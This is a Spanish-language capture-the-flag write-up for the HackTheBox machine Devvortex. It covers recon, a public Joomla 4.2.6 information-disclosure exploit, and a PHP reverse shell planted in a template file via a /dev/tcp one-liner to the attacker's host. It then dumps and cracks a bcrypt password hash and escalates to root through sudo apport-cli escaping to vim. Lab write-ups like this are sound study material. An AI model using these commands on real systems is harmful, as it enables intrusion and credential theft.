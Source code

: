 ```yaml
---
title: HackTheBox-Devvortex Easy
published: true
---
```

Esta es una máquina fácil de la plataforma de HackTheBox, en la cual vamos a obtener **RCE** a través de la explotación de el CMS **Joomla**.
Crackearemos una contraseña en hash **bcrypt** para escalar privilegios, y ganaremos acceso root gracias a la capacidad de ejecutar el binario **apport-cli** 
con privilegio de superusuario.

# Reconocimiento
Empezamos realizando un escaneo de puertos con el comando: 
```
nmap -p- --open -sS --min-rate 5000 -vvv -n -Pn 10.10.11.242 -oN puertos
```
![puertos](https://github.com/UpanaH4ck/upanah4ck.github.io/tree/master/assets/devvortex/puertos.png)

Los puertos abiertos son:
- 22
- 80

Una vez que sabemos los puertos, hacemos otro escaneo para ver los servicios que corren en los mismos:

```
nmap -p22,80 -sCV 10.10.11.242 -oN services
```
![servicios](https://github.com/UpanaH4ck/upanah4ck.github.io/tree/master/assets/devvortex/servicios.png)

Tenemos el puerto 22(ssh) y el 80(http). Lo que significa que hay una página web.
También nos reporta un dominio `http://devvortex.htb`
Inicialmente la página web no tienen nada interesante y tampo es funcional, por lo que vamos a realizar un descubrimiento de directorios:

```
gobuster dir -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt http://devvortex.htb
```
Desafortunadamente no encontraos ningún directorio importante por lo que, en vez de descubrir directorios, vamos a tratar de descubrir subdominios:

```
wfuzz -c --hc 404 --hw 10 -t 200 -w /usr/share/wordlists/dirbuster/directory-list-lowercase-2.3-medium.txt -u http://devvortex.htb -H 'Host: FUZZ.devvortex.htb'
```
![subdominios](https://github.com/UpanaH4ck/upanah4ck.github.io/tree/master/assets/devvortex/subdominio.png)

El subdominio `dev` tiene buena pinta. Parece que es el subdominio de desarrollo de la página web. Si miramos el `wappalyzer`(lo podéis encontrar en [wappalyzer](https://addons.mozilla.org/es/firefox/addon/wappalyzer/)) vemos que está utilizando Joomla.
Joomla es un **CMS** (Content Management System) que suele ser usado en desarrollo web.
Si miramos en el archivo **robots.txt** vemos que hay una ruta /administrator, en la cual hay un panel de login.

![robotstxt](https://github.com/UpanaH4ck/upanah4ck.github.io/tree/master/assets/devvortex/robotstxt.png)

![login](https://github.com/UpanaH4ck/upanah4ck.github.io/tree/master/assets/devvortex/login.png)

Para tratar de enumerar la versión de Joomla vamos a usar la herraamienta **droopescan**.

![droopescan](https://github.com/UpanaH4ck/upanah4ck.github.io/tree/master/assets/devvortex/droopescan.png)

La propia herramienta no logra encontrar la versión de joomla pero, nos pasa un archivo que podría contener información importante: **/administrator/manifests/files/joomla.xml**
En este archivo si que vemos la versión de joomla:

![joomlaxml](https://github.com/UpanaH4ck/upanah4ck.github.io/tree/master/assets/devvortex/joomlaxml.png)

Parece ser que la versión del CMS es la 4.2.6, la cual tiene una vulnerabilidad de Information Disclousure.

# Joomla Information Disclousure
Para explotar esta vulnerabilidad vamos a usar [el exploit de Acceis](https://github.com/Acceis/exploit-CVE-2023-23752). 
Este exploit nos reporta el usuario y contraseña del panel de login que hemos encontrado:

![info](https://github/UpanaH4ck/upanah4ck.github.io/tree/master/assets/devvortex/exploit.png)

Con estas credenciales accedemos al panel de administración de Joomla.
Ahora, vamos a obtener **RCE** a la máquina mediante la inyección de código php malicioso en uno de los archivos del template de Joomla:

# Joomla RCE modificando template
Dentro de la interfaz, tenemos que dirigirnos a **System -> Administrator Templates -> Atum Details and Files -> error.php** como se muestra en las siguientes imágenes:

![php1](https://github/UpanaH4ck/upanah4ck.github.io/tree/master/assets/devvortex/php1.png)

![php2](https://github/UpanaH4ck/upanah4ck.github.io/tree/master/assets/devvortex/php2.png)

![php3](https://github/UpanaH4ck/upanah4ck.github.io/tree/master/assets/devvortex/php3.png)

![php4](https://github/UpanaH4ck/upanah4ck.github.io/tree/master/assets/devvortex/php4.png)

Una vez estemos en el archivo **error.php**, introducimos el siguiente código php:

```php
exec("/bin/bash -c 'bash -i >& /dev/tcp/nuestraip/puerto 0>&1'");
```
Llegados a este punto, simplemente nos ponemos en escucha con netcat por el puerto que hayamos puesto en el php(en este caso el 443):

```
nc -nlvp 443
```
y realizamos una petición al archivo error.php, ya sea por `curl` o mediante el navegador.

Con esto ya tenemos ejecución remota de comandos. Pero antes de pasar a la escalada, vamos a convertir la consola en una shell completamente interactiva:

```
script /dev/null -c bash
^Z
stty raw -echo; fg
reset xterm
export TERM=xterm
```
Ahora sí, pasamos a la escalada.

# Escalada de privilegios
Para empezar, como tenemos las credenciales de la base de datos SQL vamos a conectarnos a ella mediante la terminal:

```
mysql -u lewis -p
contraseña
show databases;
use joomla;
select * from sd4fg_users;
```
Con esto vemos la contraseña encriptada del usuario logan:

![hash](https://github.com/UpanaH4ck/upanah4ck.github.io/tree/master/assets/devvortex/hash.png)

Parece que el hash es `bcrypt`, así que vamos a tratar de crackearlo con john mediante fuerza bruta:

```
john --format=bcrypt --wordlist=/usr/share/wordlists/rockyou.txt hash.txt
```
Al hacer esto obtenemos la contraseña en texto claro, que es `tequieromucho`.

Llegados a este punto, ya solo queda convertirnos en usuario root.

# Pwned!

Vamos a empezar ejecutando **sudo -l** para ver si hay algún binario que podamos ejecutar con privilegio root.
Hay uno, `/usr/bin/apport-cli`.
Este binario lo vamos a ejecutar con el siguiente comando:
```
sudo /usr/bin/apport-cli -f 
```
Al ejecutar el binario, hay una serie de inputs en los que tenemos que seleccionar una opción.

En el primer input seleccionamos la primera opción, después la segunda opción, y finalmente seleccionamos **V(View Report)**. Al seleccionar esta última opción abre una terminal de `vim`.

Llegados a este punto, en la terminal de vim escribimos **!/bin/bash**, como se ve en la imagen:

![bin4](https://github.com/UpanaH4ck/upanah4ck.github.io/tree/master/assets/devvortex/bin4.png)

Ahora simplemente con presionar la tecla **Intro**, ya tenemos una consola como `superusuario`

